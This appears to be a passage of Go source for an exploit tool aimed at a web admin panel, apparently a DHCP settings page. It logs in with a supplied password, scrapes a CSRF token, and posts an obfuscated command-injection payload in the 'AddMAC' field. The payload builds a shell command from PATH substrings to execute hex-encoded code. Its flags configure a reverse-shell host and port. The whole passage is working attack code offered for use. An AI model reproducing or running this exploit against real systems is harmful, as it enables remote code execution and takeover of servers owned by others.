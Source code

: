     func extractFlags() *Options {
        urlPtr := flag.String("u", "http://10.0.0.1/admin/", "Set the Url of the admin panel")
        passPtr := flag.String("pass", "admin", "Admin Password")
        hostPtr := flag.String("host", "10.0.0.1", "Set the host for the reverse shell")
        portPtr := flag.String("p", "1337", "Set Port for the reverse shell")
        flag.Parse()

        return &Options{*urlPtr, *passPtr, *hostPtr,*portPtr}
    }

    func doLogin(ses *grequests.Session) *grequests.Session{
        log.Println("Logging In...")
        resp, err := ses.Post(URL+"index.php",&grequests.RequestOptions{Data: map[string]string{"pw": PASSWD}})
        if err != nil {
            log.Fatal("Error logging-in: ", err)
        }

        if resp.Ok != true {
            log.Println("Request for log-in did not return OK")
        }
        log.Println("Logged In!")
        return ses
    }

    func getToken(ses *grequests.Session) string{
        resp, err:= ses.Get(URL+"index.php",nil)
            if err != nil {
            log.Fatal("Error getting token: ", err)
        }

        if resp.Ok != true {
            log.Println("Request for getting token did not return OK")
        }
        html := soup.HTMLParse(resp.String())
        token := html.Find("div","id","token").Text()
        return token
    }

    func Exploit(ses *grequests.Session, token string, payload string) {
        full_payload := "aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN(\"" + payload + "\"));'&&"
        resp,err := ses.Post(URL + "settings.php", &grequests.RequestOptions{Data: map[string]string{
            "AddMAC":full_payload,
            "field":"DHCP",
            "AddIP":"10.10.10.10", 
            "AddHostname":"10.10.10.10", 
            "addstatic":"", 
            "token":token}})
                if err != nil {
            log.Fatal("Error sending payload: ", err)
        }

        if resp.Ok != true {
            log.Println("Request for sending payload did not return OK")
        }
    }
